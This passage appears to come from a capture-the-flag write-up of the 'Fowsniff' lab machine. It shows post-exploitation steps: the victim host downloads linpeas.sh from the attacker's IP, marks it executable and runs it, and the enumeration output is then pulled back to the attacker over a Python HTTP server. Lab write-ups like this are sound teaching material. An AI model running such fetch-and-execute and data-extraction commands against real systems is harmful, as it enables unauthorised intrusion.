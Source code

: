 ```bash
drwxr-xr-x 11 root     root     4096 Mar  8  2018 ..
-rw-------  1 baksteen users       1 Mar 13  2018 .bash_history
-rw-r--r--  1 baksteen users     220 Aug 31  2015 .bash_logout
-rw-r--r--  1 baksteen users    3771 Aug 31  2015 .bashrc
drwx------  2 baksteen users    4096 Mar  8  2018 .cache
-rw-r--r--  1 baksteen users       0 Mar  9  2018 .lesshsQ
drwx------  5 baksteen users    4096 Mar  9  2018 Maildir
-rw-r--r--  1 baksteen users     655 May 16  2017 .profile
-rw-r--r--  1 baksteen users      97 Mar  9  2018 term.txt
-rw-------  1 baksteen users    2981 Mar 13  2018 .viminfo
baksteen@fowsniff:~$ cat term.txt
I wonder if the person who coined the term "One Hit Wonder"
came up with another other phrases.
```
{: .nolineno }


I proceeded to upload linepeas on the victim machine for quick eneumeration.

On the attacker machine, start a python server:

```bash
➜  python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.148.76 - - [17/Jun/2025 23:33:49] "GET /linpeas.sh HTTP/1.1" 200 -
```
{: .nolineno }


On the victim machine, download linpeas.sh, give it appropriate permissions and execute it. (_I prefer to save the output and download it locally incase i need to reference it later_)

```bash
baksteen@fowsniff:/tmp$ wget 10.9.3.131:8080/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh -a > linpeas.txt
```
{: .nolineno }

Start a local python server on the victim machine so as to download the output locally.

```bash
baksteen@fowsniff:/tmp$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 ...
10.9.3.131 - - [17/Jun/2025 16:36:24] "GET /linpeas.txt HTTP/1.1" 200 -
```
{: .nolineno }


Download the file on the attacker machine and inspect it:

```bash
➜  wget 10.10.148.76:8080/linpeas.txt
--2025-06-17 23:36:23--  http://10.10.148.76:8080/linpeas.txt
Connecting to 10.10.148.76:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 145057 (142K) [text/plain]
Saving to: ‘linpeas.txt’

linpeas.txt                 100%[===========================================>] 141.66K  96.1KB/s    in 1.5s

2025-06-17 23:36:25 (96.1 KB/s) - ‘linpeas.txt’ saved [145057/145057]

➜  less -r linpeas.txt
```
{: .nolineno }
